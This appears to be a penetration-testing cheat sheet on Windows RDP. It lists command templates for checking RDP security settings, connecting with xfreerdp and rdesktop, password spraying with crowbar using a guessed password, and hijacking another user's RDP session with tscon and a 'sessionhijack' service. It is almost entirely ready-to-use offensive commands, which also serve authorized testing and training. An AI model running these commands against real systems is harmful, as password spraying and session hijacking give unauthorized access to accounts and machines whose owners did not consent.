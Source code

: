 # windows rdp

% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389

## Check the security settings of the RDP service.
```
rdp-sec-check.pl <FQDN/IP>
```

## Log in to the RDP server from Linux.
```
xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>
```

## crowbar - Password spraying on RDP
```
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

## rdesktop - Connect to RDP
```
rdesktop -u admin -p password123 192.168.2.143
```

## tscon - Impersonate user
```
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

## Execute RDP session hijack
```
net start sessionhijack
```
